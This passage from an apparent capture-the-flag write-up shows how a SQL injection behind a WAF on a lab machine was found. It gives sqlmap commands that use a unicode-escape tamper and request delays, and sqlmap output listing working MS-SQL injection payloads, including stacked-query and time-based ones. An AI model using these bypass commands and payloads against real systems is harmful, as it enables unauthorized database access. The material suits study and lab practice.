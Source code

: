 This looks vulnerable to SQL Injection somehow. Every form of injection I tried resulted in a 403 being returned. I noticed one thing however, the `Content-Type` header said that this app accepts UTF-8 characters.&#x20;

UTF-8 characters are a bit special as they are denoted like `\u12` or something. If I try to use `\u12` as the input, I get an error instead of being blocked.

<figure><img src="../../../.gitbook/assets/image (115) (4).png" alt=""><figcaption></figcaption></figure>

This likely indicates that our query has caused a backend error. Using this, we can try some of the `sqlmap` tampers that are available:

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap" %}

Tampers are basically scripts that change the characters being sent in to the website. There's a `charunicodeescape` option that we can try. The final command looks something like this:

```
$ sqlmap -r req --tamper=charunicodeescape --level 5 --risk 3
```

The initial attempt tells me there's nothing, and that all requests ended in 403. I tried again with a `--delay 3` flag in case there was a WAF blocking my access, and it works. The final command I used was:

```
$ sqlmap -r req --tamper=charunicodeescape --level 5 --risk 3 --batch --dbms=mssql --delay 3
```

> The guess of the DBMS being MS-SQL was purely a guess based on usual HTB machine patterns, but obviously this is not always the case! Windows AD can use SQLite3 or MySQL for their backends, especially for web servers!&#x20;

{% code overflow="wrap" %}
```
[22:58:39] [INFO] (custom) POST parameter 'JSON #1*' appears to be 'Microsoft SQL Server/Sybase stacked queries (comment)' injectable
[22:59:04] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:59:17] [INFO] target URL appears to have 5 columns in query
[23:00:51] [INFO] (custom) POST parameter 'JSON #1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable                                                                         
(custom) POST parameter 'JSON #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 70 HTTP(s) requests:
---
Parameter: JSON #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: {"name":"' AND 4943=4943-- fsuJ"}

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: {"name":"';WAITFOR DELAY '0:0:5'--"}

    Type: time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
```
